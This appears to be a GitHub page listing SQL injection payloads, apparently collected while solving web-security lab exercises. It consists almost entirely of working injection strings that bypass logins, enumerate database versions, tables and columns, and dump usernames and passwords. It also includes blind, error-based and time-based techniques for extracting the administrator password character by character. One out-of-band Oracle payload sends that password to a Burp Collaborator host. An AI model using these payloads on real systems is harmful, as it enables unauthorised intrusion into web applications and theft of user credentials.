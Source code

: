 # SQL Injection Payloads  
  
  >Sample SQL Injection payloads.  

```SQL
'+OR+1=1--
administrator'--
```

```SQL
'+UNION+SELECT+'abc','def'--
```
```SQL
'+UNION+SELECT+'abc','def','ghi'--
```
```SQL
'+UNION+SELECT+'abc','def','ghi','jkl'--
```
```SQL
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
```SQL
'+UNION+SELECT+table_name,+NULL+NULL+FROM+information_schema.tables--
```
```SQL
'+UNION+SELECT+NULL,NULL--
```
```SQL
'+UNION+SELECT+NULL,NULL,NULL--
```
```SQL
'+UNION+SELECT+NULL,NULL,NULL,NULL--
```
```SQL
'+UNION+SELECT+'abcdef',NULL,NULL--
```
```SQL
'+UNION+SELECT+NULL,'abcdef',NULL,NULL--
```
```SQL
'+UNION+SELECT+@@version,+NULL#
```
```SQL
'+UNION+SELECT+@@version,+NULL,+NULL#
```
```SQL
'+UNION+SELECT+BANNER,+NULL,+NULL+FROM+v$version--
```
```SQL
'+UNION+SELECT+@@version,+NULL#
```
```SQL
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
```SQL
'+UNION+SELECT+table_name,NULL,NULL+FROM+all_tables--
```
```SQL
Lifestyle'+ORDER+BY+3--
```
```SQL
Lifestyle'+UNION+SELECT+'text','text'--
```

```sql
'+UNION+SELECT+username,+password+FROM+users--
```
```SQL
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
```SQL
'+UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--
```
```SQL
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```
```SQL
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
```SQL
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```
```SQL
'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
```SQL
'||pg_sleep(10)--
```
```SQL
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--"
```
```SQL
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d""1.0""+encoding%3d""UTF-8""%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+""http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/"">+%25remote%3b]>'),'/l')+FROM+dual--"
```
```SQL
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d""1.0""+encoding%3d""UTF-8""%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+""http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/"">+%25remote%3b]>'),'/l')+FROM+dual--
```
```SQL
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='users_bmudna'--
```
```SQL
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```

```SQL
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_bmudna'--
```
```SQL
'+UNION+SELECT+username_pyqajm,+password_hqxvnr+FROM+users_bmudna--
```